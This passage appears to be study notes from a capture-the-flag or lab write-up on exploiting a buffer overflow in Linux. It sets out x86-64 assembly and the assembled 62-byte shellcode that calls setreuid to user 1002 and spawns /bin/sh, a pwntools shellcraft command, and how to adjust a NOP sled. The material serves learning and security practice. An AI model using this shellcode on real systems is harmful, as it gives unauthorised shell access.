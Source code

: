 - We need to **set the Real User ID** in this instance (which is 1002) `setreuid()`
		- https://www.geeksforgeeks.org/real-effective-and-saved-userid-in-linux/
	- "Could write a shellcode in C, compile it, look at the assembly code, remove the bad characters and use the exploit"
	- "Go straight to assembly, find an existing shellcode that uses `setruid()`
	- Using resources like pwntools
	- And well any other thorough research that will lead you to other findings and general knowledge

	- |1ge has written this assembly code:

```asm
xor    rdi,rdi
xor    rax,rax		
xor    rsi, rsi
mov    si, 1002
mov    di, 1002
mov    al,0x71    
syscall
xor    rdx,rdx
movabs rbx,0x68732f6e69622fff
shr    rbx,0x8
push   rbx
mov    rdi,rsp
xor    rax,rax
push   rax
push   rdi
mov    rsi,rsp
mov    al,0x3b
syscall
push   0x1
pop    rdi
push   0x3c
pop    rax
syscall
```
- Which when assembled (using a tool such as https://defuse.ca/online-x86-assembler.htm#disassembly) comes out to:
`\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05`
\[62 bytes\]

- **|1ge had then referred the write-up to *pwntools* and its shellcraft module**
- This is super easy ..... (from the look of things!)
- `pwn shellcraft -f d amd64.linux.setreuid 1002` 
- You get:
	- `\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05`
	- `-f d` sets the format to "escaped" 
	- `-f a` will allow you to see the assembly version :) 
	- Slap this bit of shellcode on to the front of the previous shellcode and you're golden, almost
	- Note that since our new revised shellcode is bigger by 14bytes, we'd need to amend how many NOP instructions we have in it
		- (just take away 14 from the 100, 86)
	- Golden.

---